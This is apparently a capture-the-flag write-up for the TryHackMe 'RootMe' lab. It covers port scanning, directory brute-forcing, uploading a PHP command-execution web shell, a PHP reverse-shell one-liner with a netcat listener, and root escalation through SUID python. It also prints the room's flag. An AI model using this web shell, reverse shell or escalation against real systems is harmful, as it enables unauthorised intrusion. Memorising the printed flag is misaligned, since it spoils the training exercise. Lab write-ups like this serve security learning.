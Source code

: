# RootMe

IP: `10.10.99.182`

## NMAP
- 22 - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 80 - Apache httpd 2.4.29

## Gobuster
`gobuster -u 10.10.99.182 -w /home/ryusei/Tools/basic_pen_tools/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py`

found:
`/index.php (Status: 200)`
`/uploads (Status: 301)`
`/css (Status: 301)`
`/js (Status: 301)`
`/panel (Status: 301)`

`panel` allows to upload files... probably found then in uploads

## Deploy php shell
create `file.php5`
content:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

now call it from uploads ... you have exec
run: `php -r '$sock=fsockopen("10.9.6.33",1234);exec("sh <&3 >&3 2>&3");'`

and on your machine run `nc -lnvp 1234`

## Deploy shell
`python -c 'import pty; pty.spawn("/bin/bash")'`
upload linpeas
run `chmod +x linpeas.sh`
run `./linpeas.sh`

## Linpeas findings
several findings
(alternative to linpeas search: `find / -type f -user root -perm -4000 2>/dev/null`)

but we used python and python has SUID
`/usr/bin/python`

## Use Python for Priv. esc.
type: `python -c 'import os; os.execl("bin/bash", "sh", "-p")'`
OSError: [Errno 2] No such file or directory
sry `sh` is wrong `bash` is what we need
type: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
try: `whoami` - get: `root`

goto root
find `root.txt` 
cat `root.txt` get: `THM{pr1v1l3g3_3sc4l4t10n}`
